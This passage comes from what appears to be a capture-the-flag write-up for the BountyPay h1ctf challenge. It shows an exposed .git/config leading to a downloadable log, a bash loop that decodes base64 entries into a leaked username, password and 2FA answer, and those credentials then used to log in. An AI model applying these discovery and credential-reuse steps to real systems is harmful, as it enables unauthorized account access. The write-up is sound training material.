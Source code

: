 During my content discovery phase on those domains, I found an interesting `.git/config` file on [app.bountypay.h1ctf.com](http://app.bountypay.h1ctf.com): 

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/bounty-pay-code/request-logger.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
```

The source code in the GitHub repository leaked the format, name and location of the log file. The file was unprotected on the target system and I downloaded it from this url: [https://app.bountypay.h1ctf.com/bp_web_trace.log](https://app.bountypay.h1ctf.com/bp_web_trace.log)

The log file contains timestamps and information about the HTTP request that was made at that time. The request info is base64 encoded:

```
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==
```

This can easily be decoded using a simple for loop in bash:

```bash
$ for line in $(cat bp_web_trace.log) ; do echo $line|cut -d: -f2|base64 -d ; echo ;done
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```

I then used those credentials on the login page at [https://app.bountypay.h1ctf.com/](https://app.bountypay.h1ctf.com/) and was greeted with a 2FA form:

{F853775}

I sent a random password and inspected the request in Burp Suite. I saw this:

```
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: https://app.bountypay.h1ctf.com
Connection: close
Referer: https://app.bountypay.h1ctf.com/
Upgrade-Insecure-Requests: 1
```